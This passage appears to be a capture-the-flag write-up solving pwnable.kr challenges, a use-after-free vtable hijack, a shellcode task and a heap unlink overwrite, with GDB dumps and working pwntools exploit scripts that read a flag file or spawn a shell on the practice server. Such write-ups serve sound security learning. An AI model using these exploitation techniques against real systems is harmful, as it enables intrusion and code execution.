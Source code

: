 The call rdx is actually call `*(*(*($rbp-0x38))+8)`.

We get *0x02131ea0*, which is the address pointed to Man instance created by new in line `Human* m = new Man("Jack", 25);`

Let’s have a closer look to the pointer: `x/10wx 0x02131ea0`, here is the result:
```
0x2131ea0:	0x00401570	0x00000000	0x00000019	0x00000000
0x19, which is exactly the same as 25. It verifies our assumption!
Therefore, 0x00401570 is the address of vtable.
Now, the call *(*(*($rbp-0x38))+8) = call *(*(0x02131ea0)+8) = call *(0x00401570+8) = call rdx. After examing vtable by x/20wx 0x00401570, we found that:
0x401570 <_ZTV3Man+16>:	0x0040117a	0x00000000	0x004012d2	0x00000000
0x401580 <_ZTV5Human>:	0x00000000	0x00000000	0x004015f0	0x00000000
0x401590 <_ZTV5Human+16>:	0x0040117a	0x00000000	0x00401192	0x00000000
0x4015a0 <_ZTS5Woman>:	0x6d6f5735	0x00006e61	0x00000000	0x00000000
0x4015b0 <_ZTI5Woman>:	0x00602390	0x00000000	0x004015a0	0x00000000
```

And the `x 0x0040117a` is exactly the address of: `0x40117a <_ZN5Human10give_shellEv>: 0xe5894855`

If we call `*(0x401570-8+8)`, we can execute shell on it!

How to? First, we need to create a file which includes our payload: `python -c 'print ("\x68\x15\x40\x00\x00\x00\x00\x00")' > payload`. Then, run the proram `./uaf 24 payload`. Our fake instance needs to have size 24 to match the original instance’s size. Then, type *3* to delete the original Man and Womaninstance. And type *2* for twice to create two fake instances, which adjusts the vtable the vtable offset to get shell. Although the `m` and `w` is deleted, the pointer still points to the same place of stack, which point to out fake instance. Finally, we type *3* to get shell.

# asm
pwntools can handle it easily:
```python
from pwn import *
con = ssh(host='pwnable.kr', user='asm', password='guest', port=2222)
p = con.connect_remote('localhost', 9026)
context(arch='amd64', os='linux')
shellcode = shellcraft.amd64.pushstr("this_is_pwnable.kr_flag_file_please_read_this_file.sorry_the_file_name_is_very_loooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooo0000000000000000000000000ooooooooooooooooooooooo000000000000o0o0o0o0o0o0ong")
shellcode += shellcraft.amd64.linux.open('rsp',0,0)
shellcode += shellcraft.amd64.linux.read('rax','rsp',0)
shellcode += shellcraft.amd64.linux.write(1, 'rsp', 100)
p.recvuntil('shellcode: ')
p.send(asm(shellcode))
log.success(p.recvall())
```

# unlink
Old style hacking. We can use unlink to overwrite the return address of main:
```python
from pwn import *
s = ssh(host='pwnable.kr', port=2222, user='unlink', password='guest')
a = s.process(["./unlink"])
r = a.recvuntil('get shell!\n')
stack_addr = int(r.split('leak: 0x')[1][:8], 16)
heap_addr = int(r.split('leak: 0x')[2][:8], 16)
shell_addr = 0x80484eb
a.send("A"*16 + p32(heap_addr + 0x24) + p32(stack_addr + 0x10) + p32(shell_addr))
a.interactive()
```
